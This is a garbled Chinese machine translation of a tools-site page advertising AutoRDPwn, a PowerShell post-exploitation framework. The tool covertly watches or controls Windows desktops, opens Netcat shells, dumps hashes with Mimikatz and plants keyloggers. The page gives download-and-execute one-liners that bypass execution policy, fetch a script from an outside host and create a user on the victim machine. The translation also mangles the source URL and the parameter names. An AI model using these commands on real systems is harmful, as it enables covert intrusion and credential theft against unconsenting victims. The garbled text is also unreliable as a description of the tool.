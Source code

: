 # AutoRDPwn:影子攻击框架

> [https://kallinuxxtauthorities . com/autodpwn-2/](https://kalilinuxtutorials.com/autordpwn-2/)

[![AutoRDPwn : The Shadow Attack Framework](img//080ad59f6f2eaee957363af53beeece6.png "AutoRDPwn : The Shadow Attack Framework")](https://1.bp.blogspot.com/-YsRhaanUsS8/XsywUOEY5rI/AAAAAAAAGf4/shJ0Fcxmxms70sUO12gBdsooGScphdCcQCLcBGAsYHQ/s1600/Screenshots.png)

**AutoRDPwn** 是在 Powershell 中创建的一个后利用框架，主要设计用于自动化对微软 Windows 计算机的影子攻击。

该漏洞(被微软归类为一项功能)允许远程攻击者在未经受害者同意的情况下查看其桌面，甚至使用操作系统本身的工具按需控制它。

由于有了额外的模块，可以通过 Netcat 获得远程 shell，用 Mimikatz 转储系统散列，加载远程键盘记录器等等。所有这一切，通过七种不同语言的完全直观的菜单。

此外，通过使用一节中描述的一系列参数，可以在反向 shell 中使用它。

**要求**

Powershell 4.0 o 高级版

**变化**

*   **版本 5.1**
    *   修复了许多错误
    *   美观的改进和等待时间的缩短
    *   通过系统设置的代理感知连接
    *   现在可以通过下载。压缩文件
    *   通过按回车键进行语言自动检测
    *   Invoke-DCOM 已被 SharpRDP 取代
    *   通电已被 Invoke-PrivescCheck 取代
    *   在受害者中创建自动清洗子程序
    *   新模块可用:用 AES 加密的 SMB Shell
    *   新模块可用:用运行方式更改用户
    *   其余的更改可以在 CHANGELOG 文件中查阅

**使用**

这个应用程序可以用于本地，远程或团队之间的枢纽。
在反向外壳中远程使用时，有必要使用以下参数:

| 参数 | 描述 |
| --- | --- |
| **-admin / -noadmin** | 根据我们拥有的权限，我们将使用其中的一个 |
| **-诺贵** | 这将避免加载菜单和一些颜色，保证其功能 |
| **——郎** | 我们将选择我们的语言(英语、西班牙语、法语、德语、意大利语、俄语或葡萄牙语) |
| **-选项** | 和菜单一样，我们可以选择如何发动攻击 |
| **-影子** | 我们将决定是否要查看或控制远程设备 |
| **-createuser** | 该参数是可选的，用户 AutoRDPwn:AutoRDPwn 将在受害机器上创建 |
| **-无清洗** | 禁用在受害计算机上撤消所有更改的过程 |

**一行本地执行:**

**powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\AutoRDPwn.ps1"**

**线上远程执行示例:**

**powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\ autordpwn . PS1-admin-nogui-lang English-option 4-shadow control-create user "**

详细的使用指南可以在以下链接中找到:
[https://darkbyte.net/autordpwn-la-guia-definitiva](https://darkbyte.net/autordpwn-la-guia-definitiva)

**也可阅读-[urlbrut:破解网站子域名的工具&Dirs](https://kalilinuxtutorials.com/urlbrute/)**

**截图**

![](img//99912c0d49724b3fb9a73db11fb9a004.png)![AutoRDPwn : The Shadow Attack Framework](img//080ad59f6f2eaee957363af53beeece6.png "AutoRDPwn : The Shadow Attack Framework")

**执照**

这个项目是在 GNU 3.0 许可下授权的——更多细节请看许可文件。

**学分和致谢**

这个框架使用了以下脚本和工具:
查奇-枚举器由**路易斯·瓦卡斯**->[https://github.com/Hackplayers/PsCabesha-tools](https://github.com/Hackplayers/PsCabesha-tools)
Invoke-Phant0m 由**哈利勒·达拉巴斯马兹**->[https://github.com/hlldz/Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m)
Invoke-PowerShellTcp 由**尼克希尔“萨姆拉塔肖克”米塔尔**->[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
Invoke-the hash 由->[https://docs . Microsoft . com/en-us/sys internals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
Stas ' m corp .->[https://github.com/stascorp/rdpwrap](https://github.com/stascorp/rdpwrap)
sharp RDP by**Steven F**->[https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)
等等，不适合在此赘述 ..感谢他们所有人和他们出色的工作。

[**Download**](https://github.com/JoelGMSec/AutoRDPwn)